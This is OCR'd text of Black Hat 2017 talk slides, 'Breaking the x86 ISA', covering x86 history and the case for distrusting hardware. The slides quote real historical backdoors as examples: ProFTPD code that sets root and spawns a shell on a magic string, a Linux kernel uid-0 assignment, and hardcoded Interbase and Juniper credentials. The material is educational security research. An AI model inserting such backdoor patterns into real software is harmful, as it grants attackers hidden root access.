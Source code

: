 Breaking the x86 ISA
{ domas / @xoreaxeaxeax / Black Hat 2017

 Christopher Domas
 Cyber Security Researcher @ Battelle Memorial Institute
./bio

 8086: 1978  A long, tortured history...
The x86 ISA

 Modes:
 Real mode
 & "unreal" mode
 Protected mode  Virtual 8086  System Management Mode  Long mode
 Compatibility mode
x86: evolution

 Instruction set extensions

 X87  IA-32, X86-64  MMX, 3DNow!  SSE, SSE2, SSE3,SSSE3,
SSE4, SSE4.2, SSE5  AES-NI, CLMUL,
RdRand, SHA  MPX, SGX

 XOP, F16C  ADX  BMI  FMA  AVX, AVX2, AVX512  VT-x, AMD-V  TSX, ASF

x86: evolution

 Modern x86 chips are a complex labyrinth of new and ancient technologies.
 Things get lost...
 8086: 29,000 transistors  Pentium: 3,000,000 transistors  Broadwell: 3,200,000,000 transistors
x86: evolution

 We don't trust software.
 We audit it  We reverse it  We break it  We sandbox it
Trust.

 But the processor itself?
 We blindly trust
Trust.

 Why?
 Hardware has all the same problems as software
 Secret functionality?
 Appendix H.
 Bugs?
 F00F, FDIV, TSX, Hyperthreading, Ryzen
 Vulnerabilities?
 SYSRET, cache poisoning, sinkhole
Trust.

 We should stop blindly trusting our hardware.
Trust.

 What do we need to worry about?

 Well known from software
 ProFTPD
 if (strcmp(target, "ACIDBITCHEZ") == 0) { setuid(0); setgid(0); system("/bin/sh;/sbin/sh"); }
 Borland Interbase
 politically:correct
 Linux kernel
 if ((options == (__WCLONE|__WALL)) && (current->uid = 0)) retval = -EINVAL;
 Juniper Netscreen firewalls
 "<<< %s(un='%s') = %u"
Backdoors
